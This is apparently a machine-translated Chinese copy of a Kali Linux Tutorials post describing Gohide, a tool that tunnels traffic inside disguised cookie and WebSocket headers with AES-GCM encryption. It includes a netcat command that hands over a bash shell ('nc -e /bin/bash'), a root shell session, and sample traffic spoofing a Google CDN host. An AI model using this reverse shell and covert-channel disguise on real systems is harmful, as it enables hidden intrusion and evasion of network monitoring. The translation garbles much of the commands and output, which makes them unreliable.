

# Gohide:使用 AES-GCM 加密在模糊通道上隧道传输端口到端口的流量

> 原文：<https://kalilinuxtutorials.com/gohide/>

.png)

**Gohide** ，通过 AES-GCM 加密的模糊通道实现端口到端口的流量。

**混淆模式**

*   会话 Cookie HTTP GET (http-client)
*   Set-Cookie 会话 Cookie HTTP/2 200 OK (http-server)
*   WebSocket 握手“Sec-web socket-Key”(web socket-client)
*   WebSocket 握手“Sec-web socket-Accept”(web socket-server)
*   没有混淆，只是使用 AES-GCM 加密的消息(无)

对于上述每个选项，AES-GCM 都是默认启用的。

**用途**

root @ WOPR-卡利:/opt/gohide-dev#。/gohide -h
的用法。/gohide:
-f string
listen fake server-r x . x . x . x:xxxx(IP/domain:port)(默认为“0 . 0 . 0 . 0:8081”)
-key OpenSSL passwd-1-salt ok | MD 5 sum
AES 加密秘密:使用'-k OpenSSL passwd-1-salt ok | MD 5 sum '从密码中导出密钥(默认为“5fe10ae58c5ad02a6113305f4e7 用于 TLS 加密模式的 PEM:default =使用硬编码的密钥对' CN:target.com '，none =明文模式(默认为“默认”)
-r string
转发到远程假服务器-r x.x.x.x:xxxx (ip/domain:port)(默认为“127 . 0 . 0 . 1:9999”)

**场景**

方框 A–反向处理器

root @ WOPR-卡利:/opt/gohide#。/gohide-f 0 . 0 . 0 . 0:8081-l 127 . 0 . 0 . 1:8080-r target.com:9091-m web socket-client
本地端口转发监听:127 . 0 . 0 . 0 . 1:8080
fake SRV 监听:0.0.0.0:8081

注意:/etc/hosts "127.0.0.1 target.com "

方框 B–Netcat/bin/bash

**root @ WOPR-卡利:/var/tmp # NC-e/bin/bash 127 . 0 . 0 . 1 9090**

方框 A–Netcat 客户端

**root @ WOPR-KALI:/opt/gohide # NC-v 127 . 0 . 0 . 1 8080
localhost[127 . 0 . 0 . 1]8080(http-alt)open
id
uid = 0(root)GID = 0(root)groups = 0(root)
uname-a
Linux WOPR-KALI 5 . 3 . 0-KALI 2-amd64 # 1 SMP Debian 5 . 3 . 9-1k/gohide**

**混淆样本**

web socket-客户端(框 A 到框 B)

*   Sec-WebSocket-Key 包含 AES-GCM 加密的内容，例如“uname -a”。

**GET/news/API/latest HTTP/1.1
主机:cdn-tb0.gstatic.com
用户代理:Mozilla/5.0(Windows NT 10.0；三叉戟/7.0；rv:11.0)像壁虎
升级:websocket
连接:升级
Sec-web socket-Key:6jZS+0 wg1 IP 3n 33 rievbomiuwh5 zdnmpjvowxm 62
Sec-web socket-Version:13**

web socket-服务器(框 B 到框 A)

*   Sec-WebSocket-Accept 包含 AES-GCM 加密的输出。

**HTTP/1.1 101 交换协议
升级:websocket
连接:升级
Sec-web socket-Accept:urr P5 l 0 z 3 NIH Xi+isjuiytskfop 60 VW 5d 2 gqcmi =**

http 客户端

*   会话 cookie 头包含 AES-GCM 加密的内容

**GET/news/API/latest HTTP/1.1
主机:cdn-tbn0.gstatic.com
用户代理:Mozilla/5.0(Windows NT 10.0；三叉戟/7.0；rv:11.0)像壁虎
接受: */*
接受——语言:en-US，en；q=0.5
Accept-Encoding: gzip，deflate，br
Referer:http://www.bbc.co.uk/
Connection:keep-alive
Cookie:Session = r7ij 8y/ebg canto 6 fc 0 fxhnvda 27 pfxyberjnw 29；安全；HttpOnly**

http-服务器

*   Set-Cookie 头包含 AES-GCM 加密的内容。

**HTTP/2.0 200 OK
内容-编码:gzip
内容-类型:text/html；charset = utf-8
pragma:no-cache
server:nginx
x-content-type-options:no sniff
x-frame-options:same origin
x-XSS-protection:1；mode = block
cache-control:no-cache，no-store，must-revalidate
过期时间:2019 年 11 月 21 日星期四 01:07:15 GMT
日期:2019 年 11 月 21 日星期四 01:07:15 GMT
content-length:30330
vary:Accept-Encoding
X-Firefox-Spdy:H2
Set-Cookie:Session = gWMnQhh+安全；path =/；HttpOnly**

没有人

**8 jwxufvora 2 FNA/8m 2 vnub 6 OIA 2 rav 4q 5 tuelja**

[**Download**](https://github.com/Potato-Industries/gohide)